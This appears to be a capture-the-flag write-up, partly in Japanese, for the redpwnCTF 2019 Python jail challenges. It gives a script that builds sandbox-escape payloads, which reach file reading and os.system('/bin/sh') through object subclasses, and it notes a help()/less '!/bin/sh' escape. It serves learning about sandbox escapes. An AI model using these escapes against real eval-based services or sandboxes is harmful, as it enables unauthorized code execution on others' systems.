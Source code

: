 ```python
import sys

def to_chr_func_seq(s):
    ret = ""
    for c in s:
        ret = ret + f"chr({ord(c)})+"

    return ret[:-1]

idx = 40  # <type 'file'>
payload = f"""
getattr(locals()["__builtins__"],"print")(().__class__.__base__.__subclasses__()[{idx}]("flag.txt").read())
""".strip()

idx = 59  # <class 'warnings.catch_warnings'>

payload = f"""
getattr(locals()["__builtins__"],"print")(().__class__.__base__.__subclasses__()[{idx}].__init__.func_globals["linecache"].os.system("/bin/sh"))
""".strip()

print(payload)

if len(sys.argv) > 1 and sys.argv[1] == "-d":
    print("================= result and debug =================")
    res = eval(payload)
    print(res)

```

## Other Solution (genericpyjail)

`help()`して適当な関数のヘルプを表示させると`less`で開くので`!/bin/sh`するだけ

- 参考: [SECCON CTF 2021作問者Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2021/12/19/232158#Misc-227pts-hitchhike)

## Flag

どちらもローカルでシェル取っただけ

## Resources

- [問題ファイル(genericpyjail)](https://github.com/redpwn/redpwnctf-2019-challenges/tree/master/misc/genericpyjail)
- [問題ファイル(genericpyjail2)](https://github.com/redpwn/redpwnctf-2019-challenges/tree/master/misc/genericpyjail2)
- [ctf-cheatsheet/pyjail.md at master · ryanking13/ctf-cheatsheet](https://github.com/ryanking13/ctf-cheatsheet/blob/master/Pwnable/jail/pyjail.md)
- [Gilgalab - Write-up: PicoCTF Python Eval 5](https://www.gilgalab.com/blog/2013/05/06/Write-up-PicoCTF-python-eval-5.html)
